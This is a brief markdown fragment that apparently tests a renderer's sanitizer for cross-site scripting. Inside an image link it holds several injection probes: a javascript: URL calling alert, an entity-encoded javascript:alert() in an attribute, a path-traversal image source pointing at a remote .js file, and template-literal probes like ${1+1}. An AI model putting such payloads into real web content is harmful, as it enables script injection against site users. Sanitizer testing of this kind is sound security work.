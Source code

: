 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../\javascript:alert(2);">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id=`$1+1}"`>bbbb</div>
<span value="`${1+1}`">aaa</span>

](()
